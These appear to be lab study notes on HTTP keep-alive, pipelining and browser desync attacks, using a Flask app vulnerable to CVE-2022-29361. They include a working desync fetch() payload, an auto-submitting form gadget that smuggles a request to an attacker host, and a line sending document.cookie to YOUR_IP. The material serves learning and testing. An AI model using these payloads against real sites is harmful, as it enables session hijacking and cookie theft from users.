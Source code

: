 
## HTTP features

- **HTTP Keep-Alive** :
  HTTP keep-alive is a mechanism that allows the reuse of a single TCP connection for multiple HTTP requests and responses. It helps reduce latency and improve performance by avoiding the need to open and close connections repeatedly. However, it can introduce a security risk known as Cache Poisoning. If caching mechanisms are in place, the persistence of connections through keep-alive could contribute to cache poisoning attacks. An attacker might exploit desynchronization issues to store malicious content in caches.
	![](Pasted%20image%2020250215043608.png)

- **HTTP Pipelining**
  Usually, with HTTP, one request results in one response. If the HTTP pipelining is enabled in the backend server, it will allow the simultaneous sending of two requests with the corresponding responses without waiting for each response. The only way to differentiate between two requests and a big one is by using the Content-Length header, which specifies the length in bytes of each request. The content header is an unnecessary header for most static file contents in a web application, like images or icons, since the backend server will usually not consider it.
	![](Pasted%20image%2020250215043647.png)


## Browser Desync
In a Browser Desync attack, the attacker aims to take control of a victim's account by exploiting vulnerabilities in a web application's user connection system.
	![](Pasted%20image%2020250215043909.png)

This attack occurs in two steps:

1.  The initial request, appearing legitimate, is intended to disrupt the user request queue by introducing an arbitrary request. 
2. Once the connection pool is compromised, the very next valid request will be replaced by the arbitrary request initiated in the previous step.

Take a look at this high-level representation of the attack:
	![](Pasted%20image%2020250215045837.png)

In the diagram above, the client initiates a POST request utilizing the keep-alive feature, ensuring the connection remains persistent. This persistence allows for transmitting multiple requests within the same session. This POST request contains a hijack GET request within its body. If the web server is vulnerable, it mishandles the request body, leaving this hijack request in the connection queue. Next, when the client makes another request, the hijack GET request is added at the forefront, replacing the expected behavior.


###  Browser Desync Identification
For a better understanding of HTTP Browser Desynchronization, we will use a web application vulnerable to [CVE-2022-29361](https://nvd.nist.gov/vuln/detail/cve-2022-29361). The web app will serve a single route.

```python
from flask import Flask  

app = Flask(__name__) @app.route("/", methods=["GET", "POST"])
def index(): 
	return """ CVE-2022-29361 Welcome to the Vulnerable Web Application """ 

if __name__ == "__main__": 
	app.run("0.0.0.0", 5000)
```

The web server impacted by this CVE is running Werkzeug v2.1.0, a versatile WSGI web application library. The crucial update in commit  [4795b9a7](https://github.com/pallets/werkzeug/commit/4795b9a7) **allows keep-alive connections when threaded or process options are configured.**
	![](Pasted%20image%2020250215050438.png)

To execute the attack, a straightforward approach is to utilize the `fetch` JavaScript function. This function allows for maintaining the connection ID across requests. 

The connection ID refers to a unique identifier assigned to a network connection between the client (browser) and the server. This identifier helps the server keep track of multiple connections and distinguish between them. This consistent connection ID lies in its ability to facilitate exploitation for an attacker that could expose user information or session tokens such as cookies.

Moreover, in a cross-site attack, the browser shares user cookies based on how the `SameSite` flag is set (CORS), but this security rule doesn't apply if the current domain matches the remote one, as in Browser Desync attacks. In such cases, there's no restriction. 

You can hack your session by using the following payload from your browser command line.

```javascript
fetch('http://MACHINE_IP:5000/', {

    method: 'POST',
    body: 'GET /redirect HTTP/1.1\r\nFoo: x',
    mode: 'cors',

})
```

1. `http://MACHINE_IP:5000/`  
    This is the URL to which the HTTP request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.
    
2. `{ method: 'POST' }`
	The `method` parameter specifies the HTTP method for the request. Here, it's set to 'POST'.

3. `{ body: 'GET /redirect HTTP/1.1\r\nFoo: x' }`
	In the body, there is the second request that is going to be injected into the queue.
	
4. `{ mode: 'cors' }`

The vulnerable website will be running at the port 5000. Furthermore, this implies that an attacker can obtain complete control over a victim's browser when the specified payload is executed from the victim.

The following screenshots will show an example of the attack using the previous payload.
	![](Pasted%20image%2020250215051000.png)

The desync attack involves injecting an arbitrary request into the request HTTP queue. Upon refreshing the page, it redirects to the /redirect endpoint, leading to a 404 error page display since that route is not present.
	![](Pasted%20image%2020250215051036.png)

### XSS Chaining
Based on the considerations outlined in previous tasks, one potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code.

**Note:**
	This strategy necessitates the presence of an arbitrary file upload feature on the website.

Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim. We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

```html
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```

We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request. Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.  

To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.

To do so, we can set up a rogue server by serving a route with a malicious payload like: `fetch('http://YOUR_IP/' + document.cookie);`
